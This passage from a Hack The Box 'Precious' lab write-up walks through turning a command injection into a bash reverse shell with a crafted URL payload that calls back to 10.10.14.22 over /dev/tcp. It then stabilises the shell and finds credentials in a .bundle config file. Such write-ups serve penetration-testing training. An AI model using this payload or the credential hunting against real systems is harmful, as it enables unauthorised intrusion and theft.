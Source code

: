 Bingo. So now we should be able to modify the payload to get a reverse shell. This might take some trial and error but since we have verified that we have command execution and Precious can talk to us we should be able to get something to work. I found ```http://10.10.14.22/?name=#{'%20`bash -c 'bash -i >& /dev/tcp/10.10.14.22/6868 0>&1'`'}``` to be successful. Be sure to have a netcat listener open on the port (6868 in this example) specified!

![](/images/HTB/Precious/shell.png)

## Henry

Now that we are on the machine it's back to enumeration mode. First let's stabilize the shell with `python3 -c 'import pty; pty.spawn("/bin/bash")'`, `CTRL+z`, `stty raw -echo;fg`. At this point we could pull over an enumeration script but I think it is incredibly valuable to do some manual poking first. Learning what should be on a machine and knowing what is out of place is an important skill to have.

![](/images/HTB/Precious/ruby_home.png)

See the date on the .bundle directory? That directory is not a normal directory to find in a home directory either. Sure enough, taking a look inside we find a config file with some credentials.

![](/images/HTB/Precious/bundle_config.png)

